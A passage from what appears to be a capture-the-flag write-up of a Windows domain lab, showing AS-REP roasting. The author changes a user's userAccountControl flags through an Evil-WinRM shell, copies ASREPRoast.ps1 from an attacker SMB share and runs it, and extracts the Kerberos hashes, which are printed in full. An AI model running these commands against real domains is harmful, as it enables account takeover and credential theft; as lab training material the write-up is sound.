     *Evil-WinRM* PS C:\programdata> Get-DomainUser jorden | ConvertFrom-UACValue
    
    Name                           Value
    ----                           -----
    NORMAL_ACCOUNT                 512
    DONT_EXPIRE_PASSWORD           65536
    

For each user, there’s a 4-byte (64-bit) word that represents [various flags
for userAccountControl](http://www.selfadsi.org/ads-attributes/user-
userAccountControl.htm). The bit for `UF_DONT_REQUIRE_PREAUTH` is 4194304. So
I can XOR that bit (flip it to on) with the following command:

    
    
    *Evil-WinRM* PS C:\programdata> Set-DomainObject -Identity jorden -XOR @{useraccountcontrol=4194304} -Verbose
    Verbose: [Get-DomainSearcher] search base: LDAP://DC=MEGACORP,DC=LOCAL
    Verbose: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=jorden)(name=jorden)(displayname=jorden))))
    Verbose: [Set-DomainObject] XORing 'useraccountcontrol' with '4194304' for object 'jorden'
    *Evil-WinRM* PS C:\programdata> Get-DomainUser jorden | ConvertFrom-UACValue
    
    Name                           Value
    ----                           -----
    NORMAL_ACCOUNT                 512
    DONT_EXPIRE_PASSWORD           65536
    DONT_REQ_PREAUTH               4194304
    

Once I flip that, I can get the hash from my Kali machine:

    
    
    root@kali# GetNPUsers.py -no-pass -dc-ip 10.10.10.179 MEGACORP/jorden
    Impacket v0.9.21.dev1+20200313.160519.0056b61c - Copyright 2020 SecureAuth Corporation
    
    [*] Getting TGT for jorden
    $krb5asrep$23$jorden@MEGACORP:a73d19d63b09964cc6e097172e767f9b$31da65f338ec20aae3fe4c1cede839fdf534fdfa878b6dcd8a0c7acd0453c98b6621d03ab22b38423de129f6de81266ef985eb7d655eb963fcbbc1935dc60bac0dad858b627c469b6a56a30b8e84b682576efbb0896d3ffcee4ae5e41bc621769cb329af2fe3f596828f24349c44c341383352d717f43db48bfde182113102e3b5ed51109ed1b09eb5a97b3afbb0f112abe362ba1de5feef2784743d72759236ce7eac39b3372ac29bd868787ffa9752dea356c93b66522b99ab7019a623e5fdc49fb645792ee5f183697105440966ca027a9060a9a7577ea5bdfc8566e6aea599f9ada7af30997309ca
    

Or I can use a harmj0y tool,
[ASREPRoast](https://github.com/HarmJ0y/ASREPRoast). There’s a `.ps1` file in
the repo. Copy it to SMB to Multimaster, import it, and run it:

    
    
    *Evil-WinRM* PS C:\programdata> copy \\10.10.14.19\share\ASREPRoast.ps1 .
    *Evil-WinRM* PS C:\programdata> . .\ASREPRoast.ps1
    *Evil-WinRM* PS C:\programdata> Get-ASREPHash -Domain megacorp.local -Username jorden
    $krb5asrep$jorden@MEGACORP.LOCAL:217d8dd459813386d9a7f5f0fa4c3cf1$094bc95da47bee5ef4946e9384e97277961c3069d86a102d4e79b5fed4881db4898d2e1ae38d81fb7327a707a58f771965cad70c3e2f3651e330dd2d85725e343928ae06de4179cee031d580c5c158a55a39bbf4fd3a16f2ec2d1f9377427153e69302d1c6e90cd82f8b4d0ab177c2e370fa051d03480d18dbb52d14c08f79a14cc34257a60e8f2b5af3d8306b26cfc63059f10c5ebf1fde99e9ce6c194132a99769fcacfad6ce01e90764f9df2179ec5f496846f7ae3b5ea307d37aac65cc1e7b91ae4bb1a48bb9adeead8ca5957fb2cb07f1154af572e7ef767cd8e89a834fe5acb0e2218bb4459710ba56e34a5044
    